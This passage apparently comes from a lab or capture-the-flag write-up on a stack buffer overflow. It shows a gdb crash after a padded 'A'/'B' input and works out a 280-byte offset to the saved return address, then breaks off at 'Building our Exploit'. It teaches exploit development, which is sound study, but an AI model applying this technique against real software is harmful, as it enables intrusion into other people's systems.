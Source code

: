 ```bash

Welcome

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

  

is this name correct? (y/n)?

y

  

Program received signal SIGSEGV, Segmentation fault.

0x00000000004011f8 in overflow ()

(gdb) x/32xg $rsp

0x7fffffffddd8: 0x4242424242424242      0x000000000000000a

0x7fffffffdde8: 0x00007ffff7df16ca      0x0000000000000000

0x7fffffffddf8: 0x00000000004011f9      0x0000000100000000

0x7fffffffde08: 0x00007fffffffdef8      0x00007fffffffdef8

...

```

  

From this output we can tell our 8 `B`s land directly in the first byte of the `rsp` or saved RIP. So now we're sure there are 280 bytes between our `name` parameter in `overflow()` and the saved RIP.

  

## Building our Exploit

  

Now that we know the exact byte offset between our `name` parameter and the saved RIP, we can craft our exploit. Right now, our string looks something like this:

<br>

<br>

![](/md-images/Pasted%20image%2020231121160423.png)

<br>
